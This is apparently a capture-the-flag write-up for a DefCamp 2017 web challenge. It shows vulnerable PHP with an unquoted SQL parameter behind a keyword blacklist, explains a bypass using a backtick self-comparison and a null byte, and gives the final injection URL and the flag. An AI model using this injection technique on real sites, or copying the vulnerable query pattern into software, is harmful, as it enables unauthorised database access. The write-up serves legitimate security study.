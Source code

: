 **View Source Code**

By viewing the code at `https://brave.dctf-quals-17.def.camp/index.php~`, we can retrieve the details
```
<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {
    die('<h3>Nop.</h3>');
}
```
based on the `$id` and `$key`, the possible point of entry will most likely be `$id`, and by studying the conditions in the preg_match
`%`, `0`, `;` and ``` are not checked.

**Constructing the query**
After analyzing the query, we can form a similar construct to the SQL `1=1`,

```
`id` = `id`
```
has the same effect as `1=1`

Lastly, we want to ignore `$key` param and end the query after inserting `$id`, hence we append `;%00` at the back.

**Conclusion**
Submitting `https://brave.dctf-quals-17.def.camp/index.php?id=`id`;%00` will give us the flag

Users:
- Try Harder
- DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}
